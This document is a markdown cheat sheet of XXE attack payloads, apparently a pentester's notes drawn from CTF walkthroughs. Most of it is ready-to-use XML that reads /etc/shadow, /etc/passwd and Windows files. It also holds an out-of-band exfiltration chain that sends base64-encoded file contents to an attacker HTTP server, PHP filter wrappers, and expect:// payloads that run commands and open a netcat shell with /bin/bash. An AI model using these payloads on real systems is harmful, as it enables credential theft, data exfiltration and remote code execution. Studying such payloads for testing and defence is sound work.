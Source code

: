 # XXE
## Exploit Example
### read /etc/shadow
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/shadow"> ]>
### read a common/less privileged linux file
<?xml version=”1.0″ encoding=”ISO-8859-1″?> 
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///etc/passwd” >
]> 
<xml> 
<foo>&xxe;</foo> </xml>

### read a privileged file
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
<foo>&xxe;</foo>

### read common file in windows
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>


### xml with fields to grab a file
The server is expecting certain fields in the XML file.  
https://infosecwriteups.com/devoops-an-xml-external-entity-xxe-hackthebox-walkthrough-fb5ba03aaaa2
`
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:////etc/passwd" >
]>
<note>
  <Author>Mitchell Moser</Author>
  <Subject>Gimme the Loot</Subject>
  <Content>&file;</Content>
</note>
`

### xml to connect to my IP and port
<?xml version = "1.0"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://$MY_IP:$MY_PORT" >
]>
<foo>&xxe;</foo>
<order>
<quantity>test</quantity>
<item>Home Appliances</item>
<address>&file;</address>
<note></note>
</order>

##  Server to read files
1.  Make a file called `xxe.dtd` with the following contents
```
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'http://10.10.14.14:8081/%file;'>">
```
1.  Start up a python server with the xxe.dtd file in its directory with the following
```
python3 -m http.server 8081
```
1.  Perform a request with the following xml
```
<?xml version = "1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://$MY_IP:8081/xxe.dtd">

%dtd;
%all;
%req;
]>
```
1.  This should return something like the following in the log history for the python server
```
10.129.95.192 - - [16/Jan/2022 17:14:35] "GET /OyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0DQpbZm9udHNdDQpbZXh0ZW5zaW9uc10NClttY2kgZXh0ZW5zaW9uc10NCltmaWxlc10NCltNYWlsXQ0KTUFQST0xDQpbUG9ydHNdDQpDT00xOj05NjAwLG4sOCwxDQo= HTTP/1.0" 404 -
```
1.  You can then run that in the base64 decode to see the output of that file
```
┌──(kali㉿kali)-[~]
└─$ echo "OyBmb3IgMTYtYml0IGFwcCBzdXBwb3J0DQpbZm9udHNdDQpbZXh0ZW5zaW9uc10NClttY2kgZXh0ZW5zaW9uc10NCltmaWxlc10NCltNYWlsXQ0KTUFQST0xDQpbUG9ydHNdDQpDT00xOj05NjAwLG4sOCwxDQo=" | base64 -d
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[Ports]
COM1:=9600,n,8,1
                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$  
```


##  XInclude Attacks
For when you cannot modify the DOCTYPE element use the XInclude to target
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## PHP Wrappers
### PHP filter with base64 encode to remote
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>

### PHP filter with base64 encoded local file
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>

### PHP expect RCE
Use `$IFS` in place of spaces
#### ls -lahrt
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://ls$IFS-lahrt">]>
<entry>
  <subject>&xxe;</subject>
  <category>Test</category>
  <text>Test</text>
</entry>

#### netcat -nvlp $MY_PORT -e '/bin/bash'
<!ENTITY xxe SYSTEM "expect://nc$IFS-nvlp$IFS'3334'$IFS-e$IFS'/bin/bash'">]>

